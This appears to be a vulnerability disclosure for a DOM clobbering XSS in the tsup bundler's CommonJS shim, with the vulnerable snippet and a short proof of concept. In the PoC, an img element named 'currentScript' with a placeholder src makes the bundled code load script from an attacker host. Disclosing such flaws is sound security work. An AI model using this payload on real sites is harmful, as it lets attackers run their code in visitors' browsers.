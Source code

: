 ## AddToAny

### Meta

+ Library: tsup
+ Version: v8.2.4
+ Stars: 8.9K
+ Payload: ```<img name="currentScript" src="https://xxx.xxx.xxx">```
+ Impact: XSS
+ CVE: N/A
+ Status: Reported
+ Foundby: TheHulk

### Library

URL: https://github.com/egoist/tsup

Bundlers run locally

### Vulnerable Code Snippet

```javascript
// node_modules/tsup/assets/cjs_shims.js
var getImportMetaUrl = () => typeof document === "undefined" ? new URL(`file:${__filename}`).href : document.currentScript && document.currentScript.src || new URL("main.js", document.baseURI).href;
var importMetaUrl = /* @__PURE__ */ getImportMetaUrl();
```

## PoC

as an example, bundle the js below.

```javascript
var s = document.createElement('script')
s.src = import.meta.url + 'extra.js'
document.head.append(s)
```

example html:

```html
<img name="currentScript" src="//xxx.xxx.xxx"></img>
<script src="dist/index.js"></script>
```
